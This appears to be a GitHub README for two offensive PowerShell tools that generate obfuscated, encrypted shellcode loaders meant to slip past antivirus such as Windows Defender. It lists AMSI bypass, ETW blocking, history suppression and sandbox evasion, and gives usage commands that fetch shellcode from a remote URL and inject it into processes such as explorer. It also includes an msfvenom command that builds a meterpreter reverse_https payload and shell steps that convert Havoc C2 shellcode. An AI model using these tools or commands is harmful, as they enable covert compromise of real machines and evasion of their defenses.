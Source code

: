 --------------------------------------
### Invoke-PoSH-ShellCodeLoader1.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader1' is a shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellcode loader script that will inject the shellcode into the current process's virtual address space.  

> Features
  - Shellcode injection into the memory of the current process (PowerShell)
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution

> Usage
1. Example with a shellcode file stored locally
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader1.ps1
  - Invoke-PoSH-ShellCodeLoader1 -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellcodeLoader.ps1
  --- or ---
  - Invoke-PoSH-ShellCodeLoader1 -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellcodeLoader.ps1 -Sandbox
```
2. Example with a shellcode file stored on a remote web server
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader1.ps1
  - Invoke-PoSH-ShellCodeLoader1 -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellcodeLoader.ps1  
  --- or ---
  - Invoke-PoSH-ShellCodeLoader1 -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellcodeLoader.ps1 -Sandbox
```
> Input 
  - Shellcode format (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)
  - Metasploit C2 Framework  
  ```msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o shellcode```
  
> License
  - GNU General Public License v3.0

--------------------------------------
### Invoke-PoSH-ShellCodeLoader2.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader2' is a simple shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellcode loader script that will inject the shellcode into a target process's virtual address space.  

> Features
  - Shellcode injection into the memory of a target process
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging

> Usage
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader2.ps1
  - Invoke-PoSH-ShellCodeLoader2 -FileUrl https://URL/shellcode -TargetProcess explorer -OutFile C:\path\Packed-ShellcodeLoader.ps1
    --- or ---
  - Invoke-PoSH-ShellCodeLoader2 -FilePath C:\path\shellcode -TargetProcess explorer -OutFile C:\path\Packed-ShellcodeLoader.ps1
```

> Input 
  - Shellcode format (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)
  - Metasploit C2 Framework  
  ```msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o shellcode```
  - Havoc C2 Framework  
    1. Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64 / Indirect Syscall: Enabled / Sleep Technique: WaitForSIngleObjectEx)  
    2. To convert the Havoc shellcode to the "PS1" format you need to run these commands:  
     ```$ xxd -p HavocShellCode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > HavocShellcode1```  
     ```$ sed '$ s/.$//' HavocShellcode1 > HavocShellcode2```  
     ```$ sed -i '1s/^/[Byte[]] $buf = /' HavocShellcode2```  

> License
  - GNU General Public License v3.0
